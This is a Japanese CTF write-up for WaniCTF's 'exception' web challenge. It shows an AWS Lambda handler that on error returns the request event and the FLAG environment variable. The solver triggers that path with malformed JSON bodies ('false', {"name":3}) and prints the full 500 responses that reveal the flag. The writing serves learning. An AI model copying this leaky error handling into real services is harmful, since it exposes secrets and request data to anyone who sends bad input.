

# 3.exception

```txt
API Gateway, Lambda, S3, CloudFront, CloudFormationを使ってアプリを作ってみました。
https://exception.web.wanictf.org/

Writer : suuhito
```

## Solution

問題にアクセスすると、入力した内容を送信して出力されるページが表示されました。



試しに `hoge` と入力してみると、以下のリクエストとレスポンスが送信されていました。

```http
POST /hello HTTP/2
Host: exception.web.wanictf.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://exception.web.wanictf.org/
Content-Type: application/json
Origin: https://exception.web.wanictf.org
Content-Length: 15
Dnt: 1
Te: trailers
Connection: close

{"name":"hoge"}
```

```http
HTTP/2 200 OK
Content-Type: application/json
Content-Length: 64
Date: Sun, 02 May 2021 17:35:18 GMT
X-Amzn-Requestid: f187e150-0101-4c36-b7f2-6f5cd3277dc8
X-Amz-Apigw-Id: ethhhE0YoAMFXSg=
X-Amzn-Trace-Id: Root=1-608ee2d6-65c6495a0ee366433b6c1c70;Sampled=0
X-Cache: Miss from cloudfront
Via: 1.1 01fbd7d01ff1478611d3936344040a80.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: NRT20-C4
X-Amz-Cf-Id: Mh5_FDUaRBg9iVYEtNvDhbmjujEnppyodIqJCJZEPag4x9HFdhUSdw==

{"name": "\u3053\u3093\u306b\u3061\u306f\u3001hoge\u3055\u3093"}
```

どうやら Json 形式で入力内容を送信していることがわかります。

次に、配布ファイルの `hello.py` のソースコードを見てみます。

```python
import json
import os
import traceback

# HelloFunction(/hello)のコード
def lambda_handler(event, context):
    try:
        try:
            data = json.loads(event["body"])
        except Exception:
            data = {}
        if "name" in data:
            return {
                "statusCode": 200,
                "body": json.dumps({"name": "こんにちは、" + data["name"] + "さん"}),
            }
        return {
            "statusCode": 400,
            "body": json.dumps(
                {
                    "error_message": "Bad Request",
                }
            ),
        }
    except Exception as e:
        error_message = traceback.format_exception_only(type(e), e)
        del event["requestContext"]["accountId"]
        del event["requestContext"]["resourceId"]
        return {
            "statusCode": 500,
            "body": json.dumps(
                {
                    "error_message": error_message,
                    "event": event,
                    "flag": os.environ.get("FLAG"),
                }
            ),
        }

```

以上のソースコードより、以下の部分に注目します。

```python
        try:
            data = json.loads(event["body"])
        except Exception:
            data = {}
```

どうやら、`json.loads(event["body"])` の部分で例外処理を発生させることで `except Exception` が実行されてflagを得れそうと推測できます。

なので 500 エラーが発生するようにレスポンスを改ざんします。

リクエストの body を以下のようにすると、500エラーを例外として発生させることができます。

```http
false
{"name":3}
```

想定解答は、`name` に String 以外を送信することによる例外発生と思われます。

```shell
$ curl -X POST https://cf-basic.web.wanictf.org/hello -d '{"name":3}' | grep FLAG | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2104  100  2094  100    10   1957      9  0:00:01  0:00:01 --:--:--  1968
{
  "error_message": [
    "TypeError: can only concatenate str (not \"int\") to str\n"
  ],
  "event": {
    "resource": "/hello",
    "path": "/hello",
    "httpMethod": "POST",
    "headers": {
      "content-type": "application/x-www-form-urlencoded",
      "Host": "boakqtdih8.execute-api.us-east-1.amazonaws.com",
      "User-Agent": "Amazon CloudFront",
      "Via": "2.0 ec7e029564542f4eb6196ab046d31627.cloudfront.net (CloudFront)",
      "X-Amz-Cf-Id": "x3ELqdQJPKhlfCE5CPbs26RqSCkebi_Gz0Vp28yQKNpIlMn3XRjLMQ==",
      "X-Amzn-Trace-Id": "Root=1-608f12cb-34924a9a08706e5563d92c32",
      "X-Forwarded-For": "106.168.165.67, 70.132.40.80",
      "X-Forwarded-Port": "443",
      "X-Forwarded-Proto": "https"
    },
    "multiValueHeaders": {
      "content-type": [
        "application/x-www-form-urlencoded"
      ],
      "Host": [
        "boakqtdih8.execute-api.us-east-1.amazonaws.com"
      ],
      "User-Agent": [
        "Amazon CloudFront"
      ],
      "Via": [
        "2.0 ec7e029564542f4eb6196ab046d31627.cloudfront.net (CloudFront)"
      ],
      "X-Amz-Cf-Id": [
        "x3ELqdQJPKhlfCE5CPbs26RqSCkebi_Gz0Vp28yQKNpIlMn3XRjLMQ=="
      ],
      "X-Amzn-Trace-Id": [
        "Root=1-608f12cb-34924a9a08706e5563d92c32"
      ],
      "X-Forwarded-For": [
        "106.168.165.67, 70.132.40.80"
      ],
      "X-Forwarded-Port": [
        "443"
      ],
      "X-Forwarded-Proto": [
        "https"
      ]
    },
    "queryStringParameters": null,
    "multiValueQueryStringParameters": null,
    "pathParameters": null,
    "stageVariables": null,
    "requestContext": {
      "resourcePath": "/hello",
      "httpMethod": "POST",
      "extendedRequestId": "et_f2EgaIAMF-lA=",
      "requestTime": "02/May/2021:20:59:55 +0000",
      "path": "/Prod/hello",
      "protocol": "HTTP/1.1",
      "stage": "Prod",
      "domainPrefix": "boakqtdih8",
      "requestTimeEpoch": 1619989195765,
      "requestId": "1ea64027-fb3a-4b77-ab6f-d5efeb0ab71f",
      "identity": {
        "cognitoIdentityPoolId": null,
        "accountId": null,
        "cognitoIdentityId": null,
        "caller": null,
        "sourceIp": "106.168.165.67",
        "principalOrgId": null,
        "accessKey": null,
        "cognitoAuthenticationType": null,
        "cognitoAuthenticationProvider": null,
        "userArn": null,
        "userAgent": "Amazon CloudFront",
        "user": null
      },
      "domainName": "boakqtdih8.execute-api.us-east-1.amazonaws.com",
      "apiId": "boakqtdih8"
    },
    "body": "{\"name\":3}",
    "isBase64Encoded": false
  },
  "flag": "FLAG{b4d_excep7ion_handl1ng}"
}
```

ですが、競技中に試しに body に直接 `false` として送信して flag を得ました。

```http
POST /hello HTTP/2
Host: exception.web.wanictf.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://exception.web.wanictf.org/
Content-Type: application/json
Origin: https://exception.web.wanictf.org
Content-Length: 5
Dnt: 1
Te: trailers
Connection: close

false
```

```http
HTTP/2 500 Internal Server Error
Content-Type: application/json
Content-Length: 2245
Date: Sun, 02 May 2021 17:43:58 GMT
X-Amzn-Requestid: 3f183417-e81b-4a04-ac54-ac784aad8f88
X-Amz-Apigw-Id: etiywHEQoAMFZqQ=
X-Amzn-Trace-Id: Root=1-608ee4de-32153ee1330b6ae762dd125a;Sampled=0
X-Cache: Error from cloudfront
Via: 1.1 7c3e8304b6c3c0dabcdeb3243f709cb0.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: NRT57-C3
X-Amz-Cf-Id: h1NZYZOd72ZW_O0zv-yis6TxdILn5_fJCaWOCdj6O-h5MdHHKvFjTQ==

{"error_message": ["TypeError: argument of type 'bool' is not iterable\n"], "event": {"resource": "/hello", "path": "/hello", "httpMethod": "POST", "headers": {"Accept-Encoding": "gzip, deflate", "content-type": "application/json", "dnt": "1", "Host": "boakqtdih8.execute-api.us-east-1.amazonaws.com", "origin": "https://exception.web.wanictf.org", "User-Agent": "Amazon CloudFront", "Via": "2.0 7c3e8304b6c3c0dabcdeb3243f709cb0.cloudfront.net (CloudFront)", "X-Amz-Cf-Id": "h1NZYZOd72ZW_O0zv-yis6TxdILn5_fJCaWOCdj6O-h5MdHHKvFjTQ==", "X-Amzn-Trace-Id": "Root=1-608ee4de-32153ee1330b6ae762dd125a", "X-Forwarded-For": "106.168.165.67, 70.132.40.143", "X-Forwarded-Port": "443", "X-Forwarded-Proto": "https"}, "multiValueHeaders": {"Accept-Encoding": ["gzip, deflate"], "content-type": ["application/json"], "dnt": ["1"], "Host": ["boakqtdih8.execute-api.us-east-1.amazonaws.com"], "origin": ["https://exception.web.wanictf.org"], "User-Agent": ["Amazon CloudFront"], "Via": ["2.0 7c3e8304b6c3c0dabcdeb3243f709cb0.cloudfront.net (CloudFront)"], "X-Amz-Cf-Id": ["h1NZYZOd72ZW_O0zv-yis6TxdILn5_fJCaWOCdj6O-h5MdHHKvFjTQ=="], "X-Amzn-Trace-Id": ["Root=1-608ee4de-32153ee1330b6ae762dd125a"], "X-Forwarded-For": ["106.168.165.67, 70.132.40.143"], "X-Forwarded-Port": ["443"], "X-Forwarded-Proto": ["https"]}, "queryStringParameters": null, "multiValueQueryStringParameters": null, "pathParameters": null, "stageVariables": null, "requestContext": {"resourcePath": "/hello", "httpMethod": "POST", "extendedRequestId": "etiywHEQoAMFZqQ=", "requestTime": "02/May/2021:17:43:58 +0000", "path": "/Prod/hello", "protocol": "HTTP/1.1", "stage": "Prod", "domainPrefix": "boakqtdih8", "requestTimeEpoch": 1619977438334, "requestId": "3f183417-e81b-4a04-ac54-ac784aad8f88", "identity": {"cognitoIdentityPoolId": null, "accountId": null, "cognitoIdentityId": null, "caller": null, "sourceIp": "106.168.165.67", "principalOrgId": null, "accessKey": null, "cognitoAuthenticationType": null, "cognitoAuthenticationProvider": null, "userArn": null, "userAgent": "Amazon CloudFront", "user": null}, "domainName": "boakqtdih8.execute-api.us-east-1.amazonaws.com", "apiId": "boakqtdih8"}, "body": "false", "isBase64Encoded": false}, "flag": "FLAG{b4d_excep7ion_handl1ng}"}
```

## Flag

```txt
FLAG{b4d_excep7ion_handl1ng}
```
